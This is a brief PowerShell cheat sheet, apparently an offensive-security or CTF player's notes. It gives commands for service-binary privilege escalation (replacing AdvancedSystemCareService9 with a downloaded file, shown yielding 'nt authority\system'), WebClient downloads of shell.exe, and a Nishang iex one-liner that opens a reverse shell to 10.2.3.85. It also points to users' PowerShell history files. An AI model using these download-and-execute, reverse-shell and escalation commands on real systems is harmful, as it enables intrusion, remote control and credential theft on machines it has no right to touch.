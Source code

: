 # PowerShell

## Checking Services
```
get-service AdvancedSystemCareService9
stop-service AdvancedSystemCareService9
start-service AdvancedSystemCareService9

powershell -c get-service AdvancedSystemCareService9
powershell -c stop-service AdvancedSystemCareService9
powershell -c start-service AdvancedSystemCareService9
```

## Invoke-WebRequest
```
c:/> Invoke-WebRequest "http://10.2.3.85/ASCService.exe" -OutFile "ASCService.exe"
c:/> powershell -c Invoke-WebRequest "http://10.2.3.85/ASCService.exe" -OutFile "ASCService.exe"
c:/> powershell -c start-service AdvancedSystemCareService9

WOOTWOOT
c:\Windows\system32>whoami
nt authority\system
```

## New-Object System.Net.WebClient (alternate download method)
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.3.85/shell.exe','shell.exe')"
```

## Nishang Shell
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.2.3.85/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.2.3.85 -Port 443
```

## Running Executable
```
c:\> start-process shell.exe
c:\> .\shell.exe
```

## Searching for files names with PowerShell
```
Get-Childitem –Path C:\ -Include *search-string* -File -Recurse
```

 ## Decoding Base64
 ```
 $string = "some-base64 aksdjklasd=="
 [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($string))
  ```

## Reading Users PowerShell History
```
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```